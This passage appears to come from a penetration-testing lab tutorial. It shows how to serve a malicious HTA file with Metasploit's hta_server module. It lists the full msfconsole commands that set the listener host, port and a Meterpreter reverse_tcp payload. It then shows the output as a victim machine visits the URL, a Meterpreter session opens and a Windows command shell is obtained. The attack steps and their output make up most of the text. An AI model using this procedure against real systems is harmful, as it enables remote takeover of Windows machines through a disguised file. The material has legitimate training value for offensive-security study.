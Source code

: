 MaliciousÂ HTAÂ viaÂ MetasploitÂ 

There is another way to generate and serve maliciousÂ HTAÂ files using theÂ MetasploitÂ framework. First, run theÂ MetasploitÂ framework usingÂ msfconsole -qÂ command.Â Under the exploit section, there isÂ exploit/windows/misc/hta_server,Â which requires selecting and setting information such asÂ LHOST,Â LPORT,Â SRVHOST,Â Payload,Â and finally, executingÂ exploitÂ to run the module.


```shell-session
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```

On the victim machine, once we visit the maliciousÂ HTAÂ file that was provided as a URL byÂ Metasploit, we should receive a reverse connection.  


```shell-session
user@machine$ [*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629) at 2021-11-16 06:15:46 -0600
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>
```
